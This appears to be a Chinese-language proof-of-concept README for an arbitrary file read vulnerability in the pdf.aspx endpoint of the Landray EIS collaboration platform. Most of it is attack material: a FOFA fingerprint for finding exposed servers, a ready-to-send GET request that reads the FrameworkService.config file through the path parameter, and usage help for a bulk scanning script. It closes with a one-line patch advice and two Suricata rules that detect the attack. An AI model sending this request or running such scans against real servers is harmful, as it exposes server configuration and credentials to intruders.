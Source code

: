 ### 产品简介  
蓝凌EIS智慧协同平台是一个简单、高效的工作方式专为成长型企业打造的沟通、协同、社交的移动办公平台，覆盖OA、沟通、客户、人事、知识等管理需求，集合了非常丰富的模块，满足组织企业在知识、项目管理系统建设等需求的一款OA系统。  

### 漏洞概述  
蓝凌EIS智慧协同平台pdf.aspx文件存在任意文件读取漏洞。攻击者可通过该漏洞在服务器端读取任意文件敏感内容，可能导致攻击者后续获取到相关的服务器权限。  

### 指纹识别  
fofa: icon_hash=“953405444”  

![Image text](https://github.com/YUUKI4O4/POC/tree/main/%E8%93%9D%E5%87%8C/Lanling_EIS_File_read_vulnerability/1.png)
![Image text](https://github.com/YUUKI4O4/POC/tree/main/%E8%93%9D%E5%87%8C/Lanling_EIS_File_read_vulnerability/2.png)

### 漏洞利用  
```
poc:
GET /EIS/service/pdf.aspx?path=/FrameworkService.config HTTP/1.1
Host: your_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1


```

### 测试和利用脚本  
```
python3 Lanling_EIS_File_read_vulnerability.py -h
usage: Lanling_EIS_File_read_vulnerability.py [-h] [-t] [-r FILE] [-u URL]

### LanLing EIS pdf.aspx Arbitrary File Reading Vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python Lanling_EIS_File_read_vulnerability.py
                        -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python Lanling_EIS_File_read_vulnerability.py
                        -u http://xxx.xxx.xxx
```

### 修复建议  
1.联系相关软件厂商更新至最新安全版本。  

### Suricata rules  
```
alert http any any -> any any (msg:"LanLing EIS pdf.aspx Arbitrary File Reading Vulnerability."; flow:established,to_server; flowbits:set,Lanling_EIS_File_read_vulnerability; content:"get";http_method;nocase; content:"/EIS/service/pdf.aspx?path=";http_uri;fast_pattern;nocase; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E8%93%9D%E5%87%8C/Lanling_EIS_File_read_vulnerability; classtype:web-attck; metadata:created_at 2024-01-15,updated_at 2024-01-15,creater:YUUKI4O4; sid:17; rev:1;)
alert http any any -> any any (msg:"LanLing EIS pdf.aspx Arbitrary File Reading Vulnerability Success."; flow:established,from_server; flowbits:isset,Lanling_EIS_File_read_vulnerability; content:"200";http_stat_code; pcre:"/^([A-Za-z0-9+/]{4})*([A-Za-z0-9+/]{4}|[A-Za-z0-9+/]{3}=|[A-Za-z0-9+/]{2}==)$/Q"; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E8%93%9D%E5%87%8C/Lanling_EIS_File_read_vulnerability; classtype:web-attck; metadata:created_at 2024-01-15,updated_at 2024-01-15,creater:YUUKI4O4; sid:18; rev:1;)
```
